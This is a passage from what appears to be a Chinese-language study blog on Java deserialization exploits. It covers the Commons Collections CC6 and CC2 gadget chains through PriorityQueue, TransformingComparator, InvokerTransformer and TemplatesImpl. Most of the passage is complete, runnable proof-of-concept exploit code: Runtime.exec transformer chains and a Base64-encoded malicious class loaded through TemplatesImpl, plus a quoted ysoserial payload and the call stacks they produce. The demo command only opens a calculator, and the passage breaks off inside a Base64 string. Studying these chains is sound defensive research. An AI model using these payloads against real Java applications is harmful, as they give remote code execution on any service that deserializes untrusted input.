        Map lazy = LazyMap.decorate(inner, chain);

        TiedMapEntry entry = new TiedMapEntry(lazy, "key");
        Map exp = new HashMap();
        exp.put(entry, "value");
        lazy.remove("key");

        setFieldValue(chain, "iTransformers", real);

        byte[] ser = serialize(exp);
        unserialize(ser);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        new ObjectOutputStream(baos).writeObject(obj);
        return baos.toByteArray();
    }

    private static void unserialize(byte[] bytes) throws Exception {
        new ObjectInputStream(new ByteArrayInputStream(bytes)).readObject();
    }
}
```



完整调用栈如下

```
at org.apache.commons.collections.map.LazyMap.get(LazyMap.java:150)
at org.apache.commons.collections.keyvalue.TiedMapEntry.getValue(TiedMapEntry.java:73)
at org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode(TiedMapEntry.java:120)
at java.util.HashMap.hash(HashMap.java:339)
at java.util.HashMap.readObject(HashMap.java:1413)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections3Seri.unserialize(CommonsCollections3Seri.java:64)
at Base.Unserialize.CC.CommonsCollections3Seri.main(CommonsCollections3Seri.java:48)
```

## CC2

### P牛版本

为什么会有CC2这条gadgets，其实需要牵扯到一些历史背景故事，在很久很久以前...

> Apache Commons Collections是⼀个著名的辅助开发库，包含了⼀些Java中没有的数据结构和和辅助⽅法，不过随着Java 9以后的版本中原⽣库功能的丰富，以及反序列化漏洞的影响，它也在逐渐被升级或替代。 在2015年底commons-collections反序列化利⽤链被提出时，Apache Commons Collections有以下两个分⽀版本： `commons-collections:commons-collection`和`org.apache.commons:commons-collections4`可⻅，groupId和artifactId都变了。前者是Commons Collections⽼的版本包，当时版本号是3.2.1；后者是官⽅在2013年推出的4版本，当时版本号是4.0。
>
> 那么为什么会分成两个不同的分⽀呢？ 官⽅认为旧的commons-collections有⼀些架构和API设计上的问题，但修复这些问题，会产⽣⼤量不能向前兼容的改动。

所以，commons-collections4不再认为是⼀个⽤来替换commons-collections的新版本，⽽是⼀个新的包，两者的命名空间不冲突，因此可以共存在同⼀个项⽬中。 那么很⾃然有个问题，既然3.2.1中存在反序列化利⽤链，那么4.0版本是否存在呢？

既然可以共存，那我们就用共存的依赖来进行研究

```xml
 <dependencies>
    <dependency>
        <groupId>org.example</groupId>
        <artifactId>Base</artifactId>
        <version>1.0-SNAPSHOT</version>
        <scope>test</scope>
    </dependency>

    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>

    <dependency>
        <groupId>org.apache.commons</groupId>
        <artifactId>commons-collections4</artifactId>
        <version>4.0</version>
    </dependency>
 </dependencies>
```

加进去之后用简单的CC6来看看区别是什么

```java
package Base.Unserialize.CC;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6{
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] { String.class, Class[].class },
                        new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke",
                        new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String[].class },
                        //new String[] { "calc" }),
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "test2");
        Map expMap = new HashMap();
        expMap.put(tme, "test3");
        outerMap.remove("test2");

        //替换恶意transformers
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);


        byte[] data =serialize(expMap);
//            String base64 = java.util.Base64.getEncoder().encodeToString(data);
//            System.out.println("序列化后的数据(base64): " + base64);

        Object o = unserialize(data);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }

}
```

报错如下

```java
java: cannot find symbol
  symbol:   method decorate(java.util.Map,org.apache.commons.collections4.Transformer)
  location: class org.apache.commons.collections4.map.LazyMap
```

跟进之后发现没有这个方法了，但是还有一样作用的（对 `LazyMap` 构造函数的 包装(Wrapper)）

```java
    public static <K, V> LazyMap<K, V> lazyMap(Map<K, V> map, Factory<? extends V> factory) {
        return new LazyMap<K, V>(map, factory);
    }

    public static <V, K> LazyMap<K, V> lazyMap(Map<K, V> map, Transformer<? super K, ? extends V> factory) {
        return new LazyMap<K, V>(map, factory);
    }
```

所以只需要改一行代码，CC6就又可以使用了

```java
Map outerMap = LazyMap.lazyMap(innerMap, chainedTransformer);
```

所以CC1、CC3都可以正常使用，但是这可不行嗷，得整点新货（CC2&&CC4）。学习过了三条CC链，现在已经清楚明白如何去构造一条完整的利用链，非常简单，两个步骤

commons-collections这个包之所有能攒出那么多利⽤链来，除了因为其使⽤量⼤，技术上的原因是其中包含了⼀些可以执⾏任意⽅法的Transformer。所以，在commons-collections中找Gadget的过 程，实际上可以简化为，找⼀条从`Serializable#readObject()`⽅法到`Transformer#transform()`⽅法的调⽤链。

来看CommonsCollections2，其中⽤到的两个关键类是： 

- `java.util.PriorityQueue` 
- `org.apache.commons.collections4.comparators.TransformingComparator`

挨个看看代码

```java
private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

嗯很润，继续

```java
    public int compare(I obj1, I obj2) {
        O value1 = (O)this.transformer.transform(obj1);
        O value2 = (O)this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

关键点都到齐了，现在就是如何的去把这些东西链接起来

`PriorityQueue#readObject()`中调⽤了`heapify()`⽅ 法，`heapify()`中调⽤了`siftDown()` ， `siftDown()`中调⽤了`siftDownUsingComparator()` ， `siftDownUsingComparator()`中调⽤的 `comparator.compare()` ，然后就连接到上⾯的`TransformingComparator` 了

放一下各个方法的代码

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

gadgets如下

```java
PriorityQueue.readObject()  
  → heapify()  
    → siftDown()  
      → siftDownUsingComparator()  
        → TransformingComparator.compare()  
          → InvokerTransformer.transform()  
            → Runtime.exec()  // 最终触发命令执行
```

总结⼀下： 

> - java.util.PriorityQueue 是⼀个优先队列（Queue），基于⼆叉堆实现，队列中每⼀个元素有⾃⼰的优先级，节点之间按照优先级⼤⼩排序成⼀棵树反序列化时为什么需要调⽤ heapify() ⽅法？
> - 为了反序列化后，需要恢复（换⾔之，保证）这个结构的顺序排序是靠将⼤的元素下移实现的。 
> - siftDown() 是将节点下移的函数， ⽽ comparator.compare() ⽤来⽐较两个元素⼤⼩ TransformingComparator 实现了 java.util.Comparator 接⼝，这个接⼝⽤于定义两个对象如何进⾏⽐较。 
> - siftDownUsingComparator() 中就使⽤这个接⼝的 compare() ⽅法⽐较树的节点。

那么可以写出如下POC

```java
package Base.Unserialize.CC;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.comparators.TransformingComparator;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsCollections2 {
    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {
                new ConstantTransformer(1)
        };

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String[].class},
                        new Object[]{new String[]{"open", "-a", "Calculator"}}),
                new ConstantTransformer(1)
        };

        Transformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        PriorityQueue queue = new PriorityQueue(2, new TransformingComparator(chainedTransformer));
        queue.add(1);
        queue.add(2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        byte[] data = serialize(queue);

        Object o = unserialize(data);
    }
    public static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    public static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

完整调用栈如下

```java
at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections2.unserialize(CommonsCollections2.java:52)
at Base.Unserialize.CC.CommonsCollections2.main(CommonsCollections2.java:39)
```

当然也可以写一个加载字节码版本的

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.xalan.transformer.TrAXFilter;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class CommonsCollections2_Bytecode {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        Transformer[] fake = new Transformer[]{new ConstantTransformer(1)};

        Transformer[] real = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] {Templates.class},
                        new Object[] {templates}
                )
        };

        Transformer chain = new ChainedTransformer(fake);
        PriorityQueue queue = new PriorityQueue(2, new TransformingComparator(chain));
        queue.add(1);
        queue.add(2);
        
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chain, real);
        
        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈如下

```
at Base.Unserialize.Base.HelloTemplatesImpl.<init>(HelloTemplatesImpl.java:15)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at org.apache.xalan.transformer.TrAXFilter.<init>(TrAXFilter.java:61)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at org.apache.commons.collections4.functors.InstantiateTransformer.transform(InstantiateTransformer.java:116)
at org.apache.commons.collections4.functors.InstantiateTransformer.transform(InstantiateTransformer.java:32)
at org.apache.commons.collections4.functors.ChainedTransformer.transform(ChainedTransformer.java:112)
at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections2_Bytecode.unserialize(CommonsCollections2_Bytecode.java:66)
at Base.Unserialize.CC.CommonsCollections2_Bytecode.main(CommonsCollections2_Bytecode.java:46)
```

### Ysoserial

https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java

```java
package ysoserial.payloads;

import java.util.PriorityQueue;
import java.util.Queue;

import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/*
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
 */

@SuppressWarnings({ "rawtypes", "unchecked" })
@Dependencies({ "org.apache.commons:commons-collections4:4.0" })
@Authors({ Authors.FROHOFF })
public class CommonsCollections2 implements ObjectPayload<Queue<Object>> {

	public Queue<Object> getObject(final String command) throws Exception {
		final Object templates = Gadgets.createTemplatesImpl(command);
		// mock method name until armed
		final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

		// create queue with numbers and basic comparator
		final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
		// stub data for replacement later
		queue.add(1);
		queue.add(1);

		// switch method called by comparator
		Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

		// switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = 1;

		return queue;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections2.class, args);
	}

}
```

可以看到一些区别就是`transformer`的构造，使用更简洁的`InvokerTransformer`直接调用`newTransformer`方法，而不是通过`ChainedTransformer`和`TrAXFilter`（我是借鉴CC3写的）。

照着自己修改一下

gadgets如下

```java
PriorityQueue.readObject()
  → TransformingComparator.compare(templates, 1)
    → InvokerTransformer.transform(templates) 
      → templates.newTransformer()  // 触发字节码执行
```

照着写出来了这样的payload

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CommonsCollections2_Bytecode_Simplified {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        
        Transformer transformer = new InvokerTransformer("toString", null, null);
        Comparator comparator = new TransformingComparator(transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add(templates);
        queue.add(1);
        
        Field iMethodNameField = InvokerTransformer.class.getDeclaredField("iMethodName");
        iMethodNameField.setAccessible(true);
        iMethodNameField.set(transformer, "newTransformer");

        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```



没有成功弹出计算器，跟进一下就知道原因。

发现在`InvokerTransformer`里面由于第一个调用到的是null，直接就抛出异常了

因为这⾥⽆法再使⽤`Transformer`数组，所以也就不能⽤ ConstantTransformer 来初始化变量，需要接受外部传⼊的变量。⽽在`Comparator#compare()`时，队列⾥的元素将作为参数传⼊`transform()`进行反射调用，也就是传给`TemplatesImpl#newTransformer`的参数。

解决起来很简单，我们只需要把第二个填充的参数也换成`TemplatesImpl`就可以了

最终POC如下：

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.Comparator;
import java.util.PriorityQueue;

public class CommonsCollections2_Bytecode_Simplified {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9T